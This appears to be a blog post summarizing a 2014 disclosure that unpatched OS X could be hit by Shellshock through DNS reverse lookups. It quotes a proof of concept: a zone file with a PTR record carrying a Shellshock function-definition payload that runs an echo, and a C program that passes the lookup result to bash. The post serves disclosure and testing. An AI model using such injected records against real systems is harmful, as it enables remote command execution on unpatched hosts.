 ```yaml
---
layout: post
title: "OSX vulnerable to Shellshock through DNS reverse lookup"
description: ""
category: Security
tags: 
- OSX
- ShellShock
- Exploits
---
```

{% include JB/setup %}
*Dirk-Willem van Gulik* has published on [seclists.org](http://seclists.org/fulldisclosure/2014/Oct/53) a document where explains
another attack vector for the famous [Shellshock bug](http://oldsite.andreafortuna.org/tags.html#ShellShock-ref): through a 
reverse lookup in DNS, where the results of this lookup are
passed, unsanitized, to an environment variable (e.g. as part of
a batch process).

![ShellShock](http://static.itpro.co.uk/sites/itpro/files/bash.jpg)

<!-- more -->

>This vector is subtly different from a normal attack vector, as the
attacker can 'sit back' and let a (legitimate) user trigger the
issue; hence keeping the footprint for a IDS or WAAS to act on small.

The vulnerability is fixed by [this patch](http://support.apple.com/kb/DL1769) last September 29: all OSX system without this patch are vulnerable.

How to reproduce this flaw?
---
From [seclist.org](http://seclists.org/fulldisclosure/2014/Oct/53) article:

>A simple zone file; such as:

     $TTL 10;
     $ORIGIN in-addr.arpa.
     @     IN SOA     ns.boem.wleiden.net dirkx.webweaving.org (
                    666        ; serial
                    360 180 3600 1800 ; very short lifespan.
                    )
     IN          NS     127.0.0.1
     *           PTR      "() { :;}; echo CVE-2014-6271, CVE-201407169, RDNS" 

can be used to create an environment in which to test the issue with existing code
or with the following trivial example:

    #include <sys/socket.h>
    #include <netdb.h>
    #include <assert.h>
    #include <arpa/inet.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <netinet/in.h>

    int main(int argc, char ** argv) {
     struct in_addr addr;
     struct sockaddr_in sa;
     char host[1024];

     assert(argc==2);
     assert(inet_aton(argv[1],&addr) == 1);

     sa.sin_family = AF_INET;
     sa.sin_addr = addr;

     assert(0==getnameinfo((struct sockaddr *)&sa, sizeof sa,
          host, sizeof host, NULL, 0, NI_NAMEREQD));

     printf("Lookup result: %s\n\n", host);    

     assert(setenv("REMOTE_HOST",host,1) == 0);
     execl("/bin/bash",NULL);
    }

Other operating systems (e.g. RHEL6, Centos, FreeBSD 7), seem to be  
immune: in their standard configurations *libc/libresolver* and *DNS* are using 
different *escaping mechanisms* (octal v.s. decimal).
